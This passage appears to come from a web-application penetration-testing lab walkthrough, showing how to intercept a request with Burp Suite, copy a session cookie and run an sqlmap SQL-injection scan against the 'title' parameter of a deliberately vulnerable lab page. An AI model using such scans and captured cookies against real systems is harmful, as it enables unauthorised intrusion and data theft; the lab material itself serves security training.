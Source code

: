 - Activate `FoxyProxy` Plugin
- Start `BurpSuite` in Interception mode
  - Refresh the page, intercept the request and copy the cookie
  - Cookie: `PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0`

![](1-webapp-httpassets/image-20230504191136451.png)

- Run `sqlmap`, defining `title` as the test parameter

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title
```
